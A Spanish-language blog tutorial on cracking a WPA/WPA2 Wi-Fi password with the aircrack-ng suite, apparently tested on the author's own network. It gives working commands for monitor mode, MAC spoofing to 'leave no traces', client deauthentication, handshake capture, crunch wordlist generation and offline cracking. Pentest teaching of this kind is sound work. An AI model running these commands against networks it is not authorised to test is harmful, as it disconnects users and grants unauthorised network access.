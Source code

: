 ```yaml
---
layout: single

title: Hacking Wifi - Pentesting Wifi

excerpt: "**El ataque que presento**
consiste en obtener el handshake WPA/WPA2 que se lleva a cabo entre las estaciones (clientes Wi-Fi) y el BSSID (punto de acceso) para intercambiar la clave compartida de cifrado de la red Wi-Fi durante la fase de autenticación, y luego intentar romperlo off-line mediante un diccionario de contraseñas."
date: 2022-07-29

classes: wide

header:

    teaser: /assets/images/wifi/logo.png

    teaser_home_page: true
    
    icon: /assets/images/logofairy.png

categories:

    - Wifi Slax
    - Kali Linux
    - Hacking Wifi
    - Wifi
    - Pentesting

tags:  

- Hacking Wifi
---
```


![](/assets/images/wifi/wallpapers.png)

La idea de esta guía es comprobar la seguridad de una red wifi. 

Para comenzar con esta practica se necesita una distribución GNU/Linux, la suite de software de seguridad inalámbrica **Aircrak-ng** y **Macchanger**.

* GNU/Linux: Recomiendo un live de Kali Linux o Wifi Slax.
* AIRCRACK-NG: Suite de software de seguridad inalámbrica. 
* MACCHANGER: Permite cambiar la Dirección **MAC** de una interfaz.

En caso de que se use alguna distribución de las cuales no son orientadas a la seguridad informática, se puede instalar las herramientas de la siguiente manera:

```bash
apt install aircrak-ng macchanger
```

El equipo que utilizo para este ejemplo es una Netbook de conectar igualdad.


![](/assets/images/wifi/debian.png)


## Modo Monitor

El modo monitor permite capturar los paquetes que viajan en el aire y obtener la MAC de los dispositivos que se están comunicando.

Hay que distinguir entre el **ESSID** que generalmente es el nombre que hace referencia al la red WiFi y el **BSSID** que hace referencia a la dirección MAC del dispositivo.

Con este modo se puede obtener información de los clientes denominados estaciones, que se encuentran dentro de una red WiFi y sus respectivas **MAC**.


Para poner la tarjeta WiFi en ""modo monitor" es necesario conocer el nombre de la interfaz:


```bash
sudo ifconfig
```
![](/assets/images/wifi/ifconfig.png)

Como se puede observar en la imagen el nombre de mi interfaz es **wlp3s0**, y para activar el "modo monitor" se debe ejecutar el siguiente comando:

```bash
sudo airmon-ng start wlp3s0
```
![](/assets/imagen/wifi/monitor.png)

Ahora, el nombre de la interfaz cambio a **wlp3s0mon**. Este nombre se debe a que la interfaz se encuentra en "modo monitor".

Si se ejecuta el comando _ifconfig_ se puede ver la descripción de la interfaz monitor. 

Teniendo en cuenta que el ataque se realizara a través de esta interfaz, no se debe dejar huellas.

Con **macchanger** se puede asignar una nueva dirección **mac** aleatoria a cualquier
interfaz. Para lograrlo hay que seguir tres pasos:

* apagar la interfaz.
* cambiar la dirección mac.
* prender la interfaz.

```bash
sudo ifconfig wlp3s0mon down
sudo macchanger -a wlp3s0mon
sudo ifconfig wlp3s0mon up
```
![](/assets/images/wifi/macchanger.png)

Ahora que todo esta configurado correctamente es hora de analizar el trafico que pasa por el aire.

![](/assets/images/wifi/airodump-ng.png)

* **PWR** hace referencia al "power". Cuanto mas bajo sea el valor, mejor es la señal que se recibe.

Escoger una red:

**airodump-ng --channel "numero" -w "archivo" --bssid "mac_wifi" wlp3s0mon** 

* **- -channel** el canal que utiliza la red wifi.
* **-w** nombre del archivo donde se guardara información.
* **- -bssid** mac del router.
* **wlp3s0mon** nombre de la interfaz monitor.

```bash
airodump-ng --channel 1 -w wifi-casa --bssid xx:xx:xx:xx wlp3s0mon
```
![](/assets/images/wifi/airodump-wifi-casa.png)

Dentro del directorio donde se esta ejecutando el ataque se crearon varios archivos, entre los cuales solo sera útil el que finaliza con extención **.cap** cuando se logre obtener el **HANDSHAKE**.

![](/assets/images/wifi/ls.png)

## des-autenticación

El proceso para poder obtener el password de la red WiFi es desconectar a un cliente de la red con un ataque de **des-autenticación** generado por nuestro ordenador.

Utilizando **aireplay** se puede des-autenticar a un cliente de una red.

La sintaxis del comando es:

**aireplay-ng --deauth 4 -a "mac-wifi" -c "mac-cliente" wlp3s0mon**

```bash
sudo aireplay-ng --deauth 4 -a ec:e4:b4:xx:xx:xx -c e4:g3:xx:xx:xx:xx wlp3s0mon
```

![](/assets/images/wifi/deauth.png)

Con esto se logra capturar el **HANDSHAKE** al caul por medio de un diccionario de furza bruta se podrá obtener la clave de la red WiFi.

El tiempo que puede llevar crackear el **HANDSHAKE** dependerá de la potencia del **CPU**.

## Diccionario

Para crear un diccionario usare la herramienta **crunch**, la cual viene por defecto en las distribuciones orientadas al pentesting.
 
su sintaxis es la siguiente:

**crunch [nin] [max] [caracteres] -t [patron] -o [nombre del archivo]**

Dado que se cual es el password de mi red WiFi creare un pequeño diccionario de números.

```bash
crunch 8 8 0123456789 -t 36@@@@@@ -o diccionario
```

![](/assets/images/wifi/diccionario.png)

El diccionario generado cuenta con miles de contraseñas de 8 dígitos.

![](/assets/images/wifi/diccionario1.png)

## Crackear

Para crackear el **handshake** que se capturo, la sintaxis del comando es la siguiente:

**aircrack-ng handshake.cap -w diccionario**

```bash
sudo aircrack-ng wifi-casa-06.cap -w diccionario
```
![](/assets/images/wifi/crack.png)

Clave obtenida.

![](/assets/images/wifi/crack1.png)

Salir del modo monitor:
 
```bash
sudo airmon-ng stop wlp3s0mon
```

Para conocer mas sobre la suite de aircrack-ng se puede visitar su pagina web.

- [Aircrack-ng](https://www.aircrack-ng.org/)
